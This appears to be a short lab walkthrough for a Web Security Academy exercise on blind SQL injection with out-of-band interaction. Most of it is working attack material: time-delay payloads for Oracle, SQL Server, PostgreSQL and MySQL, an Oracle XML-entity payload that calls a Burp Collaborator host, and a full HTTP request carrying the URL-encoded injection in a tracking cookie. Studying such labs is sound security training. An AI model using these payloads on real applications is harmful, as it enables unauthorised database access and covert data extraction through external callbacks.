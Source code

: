 
##### Step 1: identify db with a basic delay.
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|   |   |
|---|---|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT SLEEP(10)`|

##### Step 2: craft the payload with the DNS lookup

`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

then ^ becomes:
`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://9fpvqj92btmfcashleybdlbi1970v5ju.oastify.com/"> %remote;]>'),'/l') FROM dual--`



##### Step 3: URL encode and send the request
GET /filter?category=Gifts HTTP/2
Host: 0a89006903b8116c806a22f5005500c4.web-security-academy.net
Cookie: TrackingId=kDxJ370K9nwdM8uJ _%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%45%58%54%52%41%43%54%56%41%4c%55%45%28%78%6d%6c%74%79%70%65%28%27%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e%63%6f%64%69%6e%67%3d%22%55%54%46%2d%38%22%3f%3e%3c%21%44%4f%43%54%59%50%45%20%72%6f%6f%74%20%5b%20%3c%21%45%4e%54%49%54%59%20%25%20%72%65%6d%6f%74%65%20%53%59%53%54%45%4d%20%22%68%74%74%70%3a%2f%2f%39%66%70%76%71%6a%39%32%62%74%6d%66%63%61%73%68%6c%65%79%62%64%6c%62%69%31%39%37%30%76%35%6a%75%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%2f%22%3e%20%25%72%65%6d%6f%74%65%3b%5d%3e%27%29%2c%27%2f%6c%27%29%20%46%52%4f%4d%20%64%75%61%6c%2d%2d_; session=ung9OoiGnfSuY2vHKhRX6YhttIkSPfSV
Sec-Ch-Ua: "Not;A=Brand";v="24", "Chromium";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a89006903b8116c806a22f5005500c4.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

